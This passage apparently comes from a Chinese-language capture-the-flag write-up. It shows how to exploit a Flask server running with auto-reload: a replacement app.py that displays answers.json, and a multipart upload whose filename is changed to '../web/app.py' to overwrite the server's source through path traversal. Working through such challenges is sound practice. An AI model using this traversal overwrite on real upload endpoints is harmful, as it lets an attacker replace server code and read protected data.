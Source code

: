 

注意到提示，开了 `--reload`

这意味着当源代码文件发生任何变化时，Flask 服务器会自动重启以应用这些更改

于是可以修改源代码如下：

```python
from flask import Flask, render_template_string
import json
import os

app = Flask(__name__)

JSON_FILE_PATH = 'answers.json'

@app.route('/')
def index():
    # 读取 answers.json 文件
    if os.path.exists(JSON_FILE_PATH):
        with open(JSON_FILE_PATH, 'r') as file:
            answers = json.load(file)
    else:
        answers = {"error": "answers.json not found"}

    # 渲染页面并显示答案
    return render_template_string('''
        <!DOCTYPE html>
        <html>
        <head>
            <title>Answers</title>
        </head>
        <body>
            <h1>Answers</h1>
            <pre>{{ answers | tojson | safe }}</pre>
        </body>
        </html>
    ''', answers=answers)
```

将上传文件名改为 `../web/app.py`

文件名不能包含 `/` ？

可以在 POST 的时候修改

```
Content-Disposition: form-data; name="file"; filename="../web/app.py"
```

刷新页面，这样就能获取到 answers.json 了



## 零知识数独
